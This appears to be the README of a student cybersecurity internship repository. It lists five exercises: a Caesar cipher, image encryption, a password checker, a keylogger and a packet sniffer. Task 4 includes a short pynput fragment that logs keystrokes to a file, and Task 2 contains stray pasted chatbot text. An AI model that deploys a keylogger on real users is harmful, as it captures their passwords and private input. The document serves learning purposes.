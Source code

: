 # PRODIGY-CS-CYBERSECURITY-main
TASK 1: 
Implement Caesar Cipher- Create a Python program that can encrypt and decrypt text using the Caesar Cipher algorithm. Allow users to input a message and a shift value to perform encryption and decryption.

TASK 2 :
Develop a simple image encryption tool using pixel manipulation. You can perform operations like swapping pixel values or applying a basic mathematical operation to each pixel. Allow users to encrypt and decrypt images. Certainly! Below is a simple Python script using the Pillow library for image processing. Make sure to install Pillow first if you haven't already: pip install pillow This script uses a simple encryption and decryption process. You can customize this method or explore other pixel manipulation techniques for more robust encryption.

TASK 3:
simple Python script that assesses the strength of a password based on criteria such as length, presence of uppercase and lowercase letters, numbers, and special characters. Provide feedback to users on the password's strength.

TASK 4:
Create a basic keylogger program that records and logs keystrokes. Focus on logging the keys pressed and saving them to a file. Note: Ethical considerations and permissions are crucial for projects involving keyloggers. from pynput import keyboard This line imports the keyboard module from the pynput library, which is used for monitoring and controlling input devices, such as keyboards and mice. def keyPressed(key): print(str(key)) with open("keylog.txt", 'a') as logkey: try: char = key.char logkey.write(char) except: print("Error getting char")

TASK 5:
Develop a packet sniffer tool that captures and analyzes network packets. Display relevant information such as source and destination IP addresses, protocols, and payload data. Ensure the ethical use of the tool for educational purposes.
